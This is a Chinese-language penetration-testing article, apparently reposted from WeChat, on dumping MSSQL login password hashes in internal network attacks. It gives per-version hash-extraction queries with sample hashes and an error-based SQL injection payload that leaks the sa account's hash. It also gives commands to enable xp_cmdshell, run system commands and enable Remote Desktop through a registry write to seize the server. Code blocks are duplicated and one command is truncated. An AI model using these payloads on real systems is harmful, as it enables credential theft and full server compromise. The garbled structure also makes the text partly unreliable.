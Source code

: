 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nKV25G2PAI9rxXdtbyWE3A)

MSSQL 使用自制的密码哈希算法对用户密码进行哈希，在内网渗透中，大多数服务口令都是一样的，收集 MSSQL 数据库的用户和密码可能会有用。

**01**、**MSSQL 各版本密码 HASH**

**MSSQL 2000 版本**

```
select name,password from master.dbo.sysxlogins 

Hash格式: 
0x0100(固定) + 8位key＋40位HASH1 +40位HASH2
0x0100AC78A243F2E61FA800A7231C501D49CDA5B93A8A2294DC68AE487C99233F245F86A9ED5749F1838021EE1610
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4m46oY7u8ibDjFSIvvn0Or8Lj57iazN7gxCgXs5ZRMRPyxAdfCPBeR4NkgY8WPibNI0gicmUGm3M2hKGw/640?wx_fmt=png)

**MSSQL 2005 版本**  

```
select name,password_hash from sys.sql_logins

Hash格式：
0x0100(固定) ＋8位key＋ 20位HASH1 + 20位HASH2 
0x01004086CEB698DB9D0295DBF84F496FDDCECADE1AE5875EB294
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4m46oY7u8ibDjFSIvvn0Or8L3rr3tS8lKQmziaWBkX3IibaYFW0anTYD8sWkR0mH6vWlfXxSUUYJdicbg/640?wx_fmt=png)

**MSSQL 2008 R2 版本**

```
Select name,password_hash from sys.sql_logins where name = 'sa'

Hash格式：
0x0100(固定) ＋8位key＋ 20位HASH1 + 20位HASH2 
0x0100A9A79055CACB976F1BE9405D2F7BE7B2A98003007978F821
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4m46oY7u8ibDjFSIvvn0Or8LqufI0luGBg0RmnxxqgzBKlhlxiaJMzc7YCCA0iaGZ6VxiaicmNia1bWWIeg/640?wx_fmt=png)

**MSSQL 2012 R2 版本**

```
select name,password_hash from sys.sql_logins

0x02009B23262ECB00E289977FA1209081C623020F2D28E23B5C615AC7BA8C0F25FEE638DC2E4DEAF023350C1E31199364879A94D65FC79F10BB577D6CB86A8C7148928DC8AFFB
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4m46oY7u8ibDjFSIvvn0Or8LHvSqpHXgUwibBkZibdl1JNHLqGnm6ARb5lVkWLNKc10asblkOfO0iaeGQ/640?wx_fmt=png)

**SQL Server 2016 版本**

```
select name,password_hash from sys.sql_logins 

0x02002F8E6FBBE1B6A9961A7E397FDD3A26F795DF806A066940B26323BE89F3450064C8657C75E2A3729E8318BBE91692335F4D2F5633BADEF7A25EC8AC003E9C4DB342312505
```

```
?Keyword=1111%' AND (Select  master.dbo.fn_varbintohexstr(password) from master.dbo.sysxlogins where name='sa')=1 AND '%'='
```

**02、SQL 注入获取 Sa 账号密码**

(1) 通过报错注入获取 sa 账户的哈希密码

```
# 开启xp_cmdshell存储过程
EXEC master..sp_configure 'show advanced options', 1;RECONFIGURE;EXEC master..sp_configure 'xp_cmdshell', 1;RECONFIGURE;
# 利用xp_cmdshell执行系统命令
Exec master.dbo.xp_cmdshell '
# SQL语句开启远程
Exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```

```
?Keyword=1111%' AND (Select  master.dbo.fn_varbintohexstr(password) from master.dbo.sysxlogins where name='sa')=1 AND '%'='
```

（2）解密获取 sa 明文密码

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4m46oY7u8ibDjFSIvvn0Or8LpKnEp3Sgt9ZgMH4UrPHHfic3ibVzxBT3fwVasVBGtvna8KMlCHHbic4Ow/640?wx_fmt=png)

（3）在内网或数据库端口开放的情况下，可直接连入数据库执行系统命令，获取服务器控制权限。  

```
# 开启xp_cmdshell存储过程
EXEC master..sp_configure 'show advanced options', 1;RECONFIGURE;EXEC master..sp_configure 'xp_cmdshell', 1;RECONFIGURE;
# 利用xp_cmdshell执行系统命令
Exec master.dbo.xp_cmdshell '
# SQL语句开启远程
Exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```